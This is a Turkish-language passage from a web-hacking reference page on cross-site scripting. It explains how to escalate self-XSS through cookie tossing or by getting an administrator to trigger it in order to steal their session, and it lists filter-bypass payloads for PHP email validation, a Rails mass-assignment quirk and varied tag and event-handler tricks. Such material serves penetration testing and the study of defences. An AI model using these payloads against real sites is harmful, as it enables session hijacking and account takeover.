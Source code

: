 Eğer bir XSS'i bir çerez içinde yükleyerek tetikleyebiliyorsanız, bu genellikle bir self-XSS'dir. Ancak, eğer **XSS için zayıf bir alt alan adı bulursanız**, bu XSS'i kullanarak tüm alan adında bir çerez enjekte edebilir ve ana alan adında veya çerez XSS'ye karşı zayıf olan diğer alt alan adlarında çerez XSS'i tetikleyebilirsiniz. Bunun için çerez atma saldırısını kullanabilirsiniz:

{% content-ref url="../hacking-with-cookies/cookie-tossing.md" %}
[cookie-tossing.md](../hacking-with-cookies/cookie-tossing.md)
{% endcontent-ref %}

Bu tekniğin harika bir istismarını [**bu blog yazısında**](https://nokline.github.io/bugbounty/2024/06/07/Zoom-ATO.html) bulabilirsiniz.

### Oturumunuzu yöneticinin gönderme

Belki bir kullanıcı, profilini yöneticiyle paylaşabilir ve eğer self XSS kullanıcının profilindeyse ve yönetici buna erişirse, zafiyeti tetikleyecektir.

### Oturum Yansıtma

Eğer bazı self XSS bulursanız ve web sayfasında **yöneticiler için oturum yansıtma** varsa, örneğin müşterilerin yardım istemesine izin veriyorsa, yönetici size yardımcı olmak için sizin oturumunuzda gördüğünüzü kendi oturumundan görecektir.

**Yöneticiye self XSS'inizi tetikletip** çerezlerini/oturumunu çalabilirsiniz.

## Diğer Atlatmalar

### Normalleştirilmiş Unicode

**Yansıtılan değerlerin** sunucuda (veya istemci tarafında) **unicode normalleştirilip normalleştirilmediğini** kontrol edebilir ve bu işlevselliği korumaları atlatmak için istismar edebilirsiniz. [**Burada bir örnek bulun**](../unicode-injection/#xss-cross-site-scripting).

### PHP FILTER\_VALIDATE\_EMAIL bayrağı Atlatma
```javascript
"><svg/onload=confirm(1)>"@x.y
```
### Ruby-On-Rails bypass

**RoR toplu atama** nedeniyle HTML'ye alıntılar eklenir ve ardından alıntı kısıtlaması aşılır ve ek alanlar (onfocus) etiketin içine eklenebilir.\
Form örneği ([bu rapordan](https://hackerone.com/reports/709336)), eğer yükü gönderirseniz:
```
contact[email] onfocus=javascript:alert('xss') autofocus a=a&form_type[a]aaa
```
"Key","Value" çifti şu şekilde geri dönecektir:
```
{" onfocus=javascript:alert(&#39;xss&#39;) autofocus a"=>"a"}
```
Sonra, onfocus niteliği eklenecek ve XSS gerçekleşecektir.

### Özel kombinasyonlar
```markup
<iframe/src="data:text/html,<svg onload=alert(1)>">
<input type=image src onerror="prompt(1)">
<svg onload=alert(1)//
<img src="/" =_=" title="onerror='prompt(1)'">
<img src='1' onerror='alert(0)' <
<script x> alert(1) </script 1=2
<script x>alert('XSS')<script y>
<svg/onload=location=`javas`+`cript:ale`+`rt%2`+`81%2`+`9`;//
<svg////////onload=alert(1)>
<svg id=x;onload=alert(1)>
<svg id=`x`onload=alert(1)>
<img src=1 alt=al lang=ert onerror=top[alt+lang](0)>
```